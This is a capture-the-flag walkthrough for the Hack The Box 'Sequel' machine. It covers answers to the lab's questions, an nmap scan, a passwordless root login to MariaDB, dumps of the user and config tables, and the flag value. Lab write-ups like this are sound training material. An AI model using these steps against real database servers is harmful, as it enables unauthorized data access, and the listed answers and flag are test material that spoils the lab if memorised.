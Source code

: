 # Sequel
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/80cf044d-0c11-4bb5-a4e1-57be3065c05f)

1) During our scan, which port do we find serving MySQL?
`3306`

2) What community-developed MySQL version is the target running?

  `MariaDb`

3) When using the MySQL command line client, what switch do we need to use in order to specify a login username?
  ` -u ` 

```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ ping 10.129.199.243     
PING 10.129.199.243 (10.129.199.243) 56(84) bytes of data.
64 bytes from 10.129.199.243: icmp_seq=1 ttl=63 time=211 ms
64 bytes from 10.129.199.243: icmp_seq=2 ttl=63 time=211 ms
^C
--- 10.129.199.243 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1003ms
rtt min/avg/max/mdev = 211.118/211.185/211.253/0.067 ms

```
```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo nmap -sC -sV 10.129.199.243
[sudo] password for melle: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-22 11:52 CDT
Nmap scan report for 10.129.199.243
Host is up (0.33s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, ConnectWithDatabase, Speaks41ProtocolOld, SupportsCompression, IgnoreSigpipes, SupportsLoadDataLocal, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, Support41Auth, LongColumnFlag, ODBCClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: H*7s_bPKc4w~1v!?Wxwm
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.76 seconds
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/b1c21182-5f0a-445a-b035-c7a16a211c5c)
```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ mysql -u root -h 10.129.199.243
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 59
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.214 sec)

```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/674f3aa2-c947-4fd0-8a60-67de69225932)
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/775088f7-74ab-40ce-89dc-7c113dbf58f2)
```
MariaDB [htb]> select *from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.212 sec)

```
```
MariaDB [htb]> select *from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.211 sec)
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/5634c632-e246-4c85-a759-e9500300fd80)

##### Submit root flag 
` 7b4bec00d1a39e3dd4e021ec3d915da8 `








